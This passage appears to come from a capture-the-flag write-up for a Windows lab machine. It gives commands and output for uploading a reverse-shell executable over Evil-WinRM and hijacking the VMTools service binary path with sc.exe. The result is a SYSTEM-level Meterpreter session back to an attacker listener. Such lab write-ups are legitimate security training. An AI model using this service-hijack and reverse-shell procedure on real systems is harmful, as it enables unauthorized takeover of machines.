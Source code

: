 Then, we can upload the malicious executable to the target host : 

```powershell
*Evil-WinRM* PS C:\Users\svc-printer\Documents> upload /home/kali/rshell.exe
Info: Uploading /home/kali/rshell.exe to C:\Users\svc-printer\Documents\rshell.exe

                                                             
Data: 64852 bytes of 64852 bytes copied

Info: Upload successful!
```

Next, we can change the binary path of the **VMTools** service to the path of the malicious executable, stop the service, and start it again : 

```powershell
*Evil-WinRM* PS C:\Users\svc-printer\Documents> sc.exe config VMTools binPath="C:\Users\svc-printer\Documents\rshell.exe"
[SC] ChangeServiceConfig SUCCESS
*Evil-WinRM* PS C:\Users\svc-printer\Documents> sc.exe stop VMTools

SERVICE_NAME: VMTools
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 1  STOPPED
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
*Evil-WinRM* PS C:\Users\svc-printer\Documents> sc.exe start VMTools

SERVICE_NAME: VMTools
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 4  RUNNING
                                (STOPPABLE, NOT_PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
        PID                : 2256
        FLAGS              :
```

Finally, let’s check our listener to see if we received a connection : 

```bash
[*] Started reverse TCP handler on 10.10.16.8:4242 
[*] Sending stage (200774 bytes) to 10.129.95.241
[*] Meterpreter session 1 opened (10.10.16.8:4242 -> 10.129.95.241:52155) at 2023-05-18 19:21:52 -0400

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter >
```
